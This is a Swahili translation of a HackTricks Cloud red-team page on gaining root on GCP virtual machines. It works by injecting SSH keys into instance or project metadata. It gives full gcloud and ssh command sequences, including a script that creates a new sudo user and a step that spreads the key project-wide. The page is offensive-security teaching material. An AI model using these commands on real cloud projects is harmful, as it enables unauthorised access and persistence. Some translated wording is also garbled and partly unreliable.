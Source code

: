 # GCP - Ongeza Metadata ya SSH ya Desturi

{% hint style="success" %}
Jifunze & zoezi Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Kubadilisha metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Kubadilisha metadata kwenye kifaa kinaweza kusababisha **hatari kubwa ya usalama ikiwa muhusika anapata idhini inayohitajika**.

### **Kuingiza Vipindi vya SSH kwenye Metadata ya Desturi**

Kwenye GCP, **mifumo ya Linux** mara nyingi hutekeleza hati kutoka kwa [Mazingira ya Mgeni wa Linux wa Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [daemon ya akaunti](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa kwa **kuchunguza mara kwa mara** kwenye kiishio cha metadata cha kifaa kwa **mabadiliko kwenye funguo za umma za SSH zilizoidhinishwa**.

Kwa hivyo, ikiwa muhusika anaweza kubadilisha metadata ya desturi, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitashughulikiwa na **kuingizwa kwenye mfumo wa ndani**. Funguo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliyopo au labda kuunda mtumiaji mpya mwenye `sudo`** privileges, kulingana na muundo wa funguo. Na muhusika ataweza kuhatarisha mwenyeji.

### **Ongeza funguo ya SSH kwa mtumiaji aliye na mamlaka**

1. **Angalia Funguo za SSH Zilizopo kwenye Kifaa:**
- Tekeleza amri ya kuelezea kifaa na metadata yake ili kutambua funguo za SSH zilizopo. Sehemu inayofaa katika matokeo itakuwa chini ya `metadata`, kwa usahihi funguo ya `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Tilia maanani muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na mabano.

2. **Andaa Faili ya Maandishi kwa Metadata ya Funguo ya SSH:**
- Hifadhi maelezo ya majina ya watumiaji na funguo zao za SSH zinazolingana kwenye faili ya maandishi iliyoitwa `meta.txt`. Hii ni muhimu kwa kuhifadhi funguo zilizopo wakati wa kuongeza mpya.

3. **Tengeneza Funguo Mpya ya SSH kwa Mtumiaji wa Lengo (`alice` kwa mfano huu):**
- Tumia amri ya `ssh-keygen` kutengeneza funguo mpya ya SSH, hakikisha kuwa uga wa maoni (`-C`) unalingana na jina la mtumiaji wa lengo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Ongeza funguo ya umma mpya kwenye `meta.txt`, ikifanana na muundo uliopatikana kwenye metadata ya kifaa.

4. **Sasisha Metadata ya Funguo ya SSH ya Kifaa:**
- Tumia amri ya `gcloud compute instances add-metadata` kuomba metadata iliyosasishwa ya funguo ya SSH kwa kifaa.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Fikia Kifaa Kwa Kutumia Funguo Mpya ya SSH:**
- Unganisha kifaa kwa SSH ukitumia funguo mpya, ukipata kabati katika muktadha wa mtumiaji wa lengo (`alice` kwa mfano huu).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Unda mtumiaji mpya mwenye mamlaka na ongeza funguo ya SSH**

Ikiwa hakuna mtumiaji wa kuvutia anapatikana, inawezekana kuunda mpya ambaye atapewa mamlaka ya `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Vyeo vya SSH kwa kiwango cha mradi <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine za Virtual (VMs) nyingi katika mazingira ya wingu kwa **kuomba vyeo vya SSH kwa kiwango cha mradi**. Mbinu hii inaruhusu ufikiaji wa SSH kwa kila kifaa ndani ya mradi ambao haujazuia wazi vyeo vya SSH kwa kiwango cha mradi. Hapa kuna mwongozo uliofupishwa:

1. **Tumia Vyeo vya SSH kwa Kiwango cha Mradi:**
- Tumia amri `gcloud compute project-info add-metadata` kuongeza vyeo vya SSH kutoka `meta.txt` kwenye metadata ya mradi. Hatua hii inahakikisha kuwa vyeo vya SSH vinatambuliwa kote kwenye VMs zote katika mradi, isipokuwa kama VM ina chaguo la "Block project-wide SSH keys" limezimwa.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH kuingia kwenye Vifaa kwa Kutumia Vyeo vya Kiwango cha Mradi:**
- Kwa kuwa vyeo vya SSH kwa kiwango cha mradi vipo, unaweza kuingia kwa SSH kwenye kifaa chochote ndani ya mradi. Vifaa visivyozuia vyeo vya SSH kwa kiwango cha mradi vitakubali kyeo cha SSH, kutoa ufikiaji.
- Njia moja ya moja kwa moja ya kuingia kwa SSH kwenye kifaa ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii hutumia jina lako la mtumiaji wa sasa na vyeo vya SSH vilivyowekwa kwa kiwango cha mradi kujaribu ufikiaji.

# Marejeo
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
